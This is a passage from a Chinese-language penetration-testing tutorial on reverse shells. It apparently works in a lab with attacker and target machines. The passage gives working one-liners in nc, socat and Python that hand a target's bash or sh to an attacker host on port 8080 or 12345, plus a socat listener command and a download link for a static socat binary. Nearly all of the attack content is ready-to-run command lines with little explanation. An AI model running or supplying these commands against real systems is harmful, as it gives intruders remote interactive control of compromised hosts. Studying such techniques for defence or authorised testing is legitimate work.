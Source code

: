 **（2） netcat安装**

有关netcat的原生二进制安装包的编译安装内容请参考场景一中的具体说明；

**（3）netcat 反弹一句话**

```
`~ # nc 192.168.31.174 8080 -t -e /bin/bash``# 命令详解：通过webshell我们可以使用nc命令直接建立一个tcp 8080 的会话连接，然后将本地的bash通过这个会话连接反弹给目标主机（192.168.31.174）。`
```

```
**（4）shell反弹成功**  

```

此时我们再回到外网主机，我们会发现tcp 8080监听已经接收到远端主机发起的连接，并成功获取shell虚拟终端控制环境。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01ac77c1444b613131.png")

**2.3 socat 反弹一句话**

Socat是Linux 下一个多功能的网络工具，名字来由是” Socket CAT”，因此可以看出它基于socket，能够折腾socket相关的无数事情 ，其功能与netcat类似，不过据说可以看做netcat的加强版,事实上的确也是如此，nc应急比较久没人维护了，确实显得有些陈旧了，我这里只简单的介绍下怎么使用它开启监听和反弹shell，其他详细内容可以参加见文末的参考学习。

有关socat二进制可执行文件，大家可以到这个链接下载：https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/socat

**（1） 攻击机上开启监听**

```
# socat TCP-LISTEN:12345 -
```

**![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01fb55246360bb938c.png")**

**（2） 靶机上运行socat反弹shell**

```
# /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.31.174：12345
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t010e9ea71484391967.png")  

```

**（3） shell 反弹成功**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01a90860984bbac549.png")

**2.4 其他脚本一句话shell反弹**

以下脚本反弹一句话的使用方法都是一样的，只要在攻击机在本地开启 TCP 8080监听，然后在远端靶机上运行以下任意一种脚本语句，即可把靶机的bash反弹给攻击主机的8080端口（当然前提条件是目标主机上要有响应的脚本解析环境支持，才可以使用，相信这点大家肯定都是明白的）。

**2.4.1 python脚本反弹**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.31.41",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
